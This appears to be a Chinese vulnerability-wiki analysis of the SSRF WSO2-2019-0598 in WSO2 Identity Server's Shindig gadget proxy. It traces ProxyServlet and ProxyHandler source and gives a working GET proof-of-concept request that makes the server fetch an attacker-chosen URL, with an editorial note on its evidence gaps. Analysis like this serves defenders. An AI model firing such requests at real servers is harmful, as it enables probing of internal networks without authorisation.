# WSO2 proxy SSRF漏洞 WSO2-2019-0598

<!-- vulwiki-editorial:start -->
## 校订与适用边界

本文主问题是 WSO2-2019-0598。CVE-2019-8451 仅用于 Jira 失败对比，不属于 WSO2 主漏洞。外站抓取示例证明出站 HTTP 能力，不自动证明任意内网资源访问。

- 适用前提：Reachable Shindig proxy endpoint; experiment uses Identity Server 5.6.0-rc3
- 证据范围：Independent ProxyServlet SSRF analysis; Jira CVE-2019-8451 is only a failed comparison route, not this vulnerability's identity. Code includes URL validation and proxy safety checks, requiring more precise description of their bypass or insufficient destination restriction.

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Wrong frontmatter primary CVE: remove Jira CVE-2019-8451 from main identity
- External Baidu fetch proves outbound request, not arbitrary internal resource reachability
- Only GET proxy reproduction is supplied; POST appears in source but is not independently demonstrated
- Release-candidate test build is not identified as distinct from final release in version claims
- No remediation or fixed builds

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

滥用 shindig Web 应用程序的 UI 小工具加载功能可以利用此漏洞。攻击者可以更改请求中的特定 URL，从而导致服务器向更改后的 URL 发起 GET 请求。通过利用此漏洞，攻击者可以使用服务器执行任意外部服务交互。这可以特别用于与内部网络的节点进行交互，否则这些节点会被网络规则隐藏在外部。攻击者可以利用它来追踪和侦察网络，除此之外，如果有内部端点对 GET 请求进行状态更改操作，那么就有可能很好地破坏它们的完整性。根据端点实施的保护级别，此漏洞的影响可能会有所不同。

## 漏洞影响

```
WSO2 Identity Server 5.2.0 , 5.3.0 , 5.4.0 , 5.4.1 , 5.5.0 , 5.6.0 , 5.7.0
WSO2 IS as Key Manager 5.3.0 , 5.5.0 , 5.6.0 , 5.7.0
```

## 环境搭建

https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip

## 漏洞复现

根据官方描述，漏洞造成的原因主要是 shindig Web 应用程序的 UI 小工具的加载功能, [WSO2-2019-0598](https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2019-0598)




下载源码启动环境，在IDEA中调试







根据官方描述，在全局搜索 shindig 相关代码




打下断点，看一下访问 `/shindig/gadgets/js` 路径时代码的调用流程




可以看到当访问此路径时，调用了对应的 Servlet 下的 doGet方法 来处理`(org.apache.shindig.gadgets.servlet.JsServlet.doGet(JsServlet.java:86)`




我们可以在文件 `conf/shindig/web.xml 找到对应的调用方法`




看到这我们注意到 `org.apache.shindig.gadgets.servlet.MakeRequestServlet` 似乎与 Jira未授权SSRF漏洞(CVE-2019-8451) 中存在的漏洞点十分的相似




但断点调试过程中，却发现这个点是利用失败的







只好去看一下其他的Servele , 最后我们注意到 ProxyServlet




发送请求包，打断点看一下处理流程

```http
GET /shindig/gadgets/proxy?container=default&url=https://www.baidu.com HTTP/1.1
Host: localhost:9443
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

通过 `org.apache.shindig.gadgets.servlet.ProxyServlet` 下的 doGet方法接收参数， 传入 `processRequest`

中

```
private void processRequest(HttpServletRequest request, HttpServletResponse servletResponse) throws IOException {
        if (request.getHeader("If-Modified-Since") != null) {
            servletResponse.setStatus(304);
        } else {
            Uri reqUri = (new UriBuilder(request)).toUri();

            HttpResponse response;
            try {
                ProxyUri proxyUri = this.proxyUriManager.process(reqUri);
                SecurityToken st = AuthInfoUtil.getSecurityTokenFromRequest(request);
                proxyUri.setSecurityToken(st);
                proxyUri.setUserAgent(request.getHeader("User-Agent"));
                if (proxyUri.getGadget() == null && st != null && !st.isAnonymous()) {
                    proxyUri.setGadget(st.getAppUrl());
                }

                AuthType authType = proxyUri.getAuthType();
                if (AuthType.OAUTH.equals(authType)) {
                    proxyUri.setOAuthArguments(new OAuthArguments(AuthType.OAUTH, request));
                } else if (AuthType.OAUTH2.equals(authType)) {
                    proxyUri.setOAuth2Arguments(new OAuth2Arguments(request));
                }

                String host = request.getHeader("Host");
                if (!this.lockedDomainService.isSafeForOpenProxy(host)) {
                    Uri resourceUri = proxyUri.getResource();
                    String msg = "Embed request for url " + (resourceUri != null ? resourceUri.toString() : "n/a") + " made to wrong domain " + host;
                    if (LOG.isLoggable(Level.INFO)) {
                        LOG.logp(Level.INFO, classname, "processRequest", "embededImgWrongDomain", new Object[]{resourceUri != null ? resourceUri.toString() : "n/a", host});
                    }

                    throw new GadgetException(Code.INVALID_PARAMETER, msg, 400);
                }

                if ("POST".equalsIgnoreCase(request.getMethod())) {
                    StringBuffer buffer = this.getPOSTContent(request);
                    response = this.proxyHandler.fetch(proxyUri, buffer.toString());
                } else {
                    response = this.proxyHandler.fetch(proxyUri);
                }
            } catch (GadgetException var11) {
                response = ServletUtil.errorResponse(new GadgetException(var11.getCode(), var11.getMessage(), 400));
            }

            ServletUtil.copyToServletResponseAndOverrideCacheHeaders(response, servletResponse);
        }
    }
```

向下跟进到`org.apache.shindig.gadgets.servlet.ProxyHandler`




`org.apache.shindig.gadgets.servlet.ProxyHandler.fatch`




接着向下看到 org.apache.shindig.gadgets.servlet.ProxyHandler 下的 `buildHttpRequest` 方法创建Http请求， 而目标就是我们刚刚传入的Url参数

```
 private HttpRequest buildHttpRequest(ProxyUri uriCtx, Uri tgt, @Nullable String postBody) throws GadgetException, IOException {
        ServletUtil.validateUrl(tgt);
        HttpRequest req = uriCtx.makeHttpRequest(tgt);
        req.setRewriteMimeType(uriCtx.getRewriteMimeType());
        if (postBody != null) {
            req.setMethod("POST");
            req.setPostBody(new ByteArrayInputStream(postBody.getBytes()));
        }

        if (req.getHeader("User-Agent") == null) {
            String userAgent = uriCtx.getUserAgent();
            if (userAgent != null) {
                req.setHeader("User-Agent", userAgent);
            }
        }

        return req;
    }
```







最后回显至页面中, 造成存在回显的SSRF

